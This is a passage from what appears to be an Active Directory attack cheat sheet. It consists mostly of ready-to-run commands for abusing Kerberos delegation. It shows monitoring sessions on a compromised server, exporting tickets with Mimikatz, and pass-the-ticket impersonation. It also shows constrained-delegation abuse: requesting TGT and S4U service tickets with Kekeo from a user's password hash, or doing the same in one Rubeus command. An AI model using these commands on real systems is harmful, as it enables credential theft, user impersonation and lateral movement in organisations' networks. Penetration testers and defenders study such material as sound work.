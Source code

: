 Command to monitor any incoming sessions on our compromised server

```
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay   
<WaitInterval> -Verbose
```

Dump the tickets to disk:

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

Impersonate the user using ptt attack:

```
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```

**Note:** We can also use Rubeus!

### Constrained Delegation

Using PowerView and Kekeo:

Enumerate Users and Computers with constrained delegation

```
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo

```
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>
```

Then using the TGT we have asked a TGS for a Service this user has Access to through constrained delegation

```
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>
```

Finally, use mimikatz to ptt the TGS

```
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```

Alterntative method, using Rubeus:

```
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt
```

Now we can access the service as the impersonated user!

**What if we have delegation rights for only a specific SPN? (e.g TIME):**
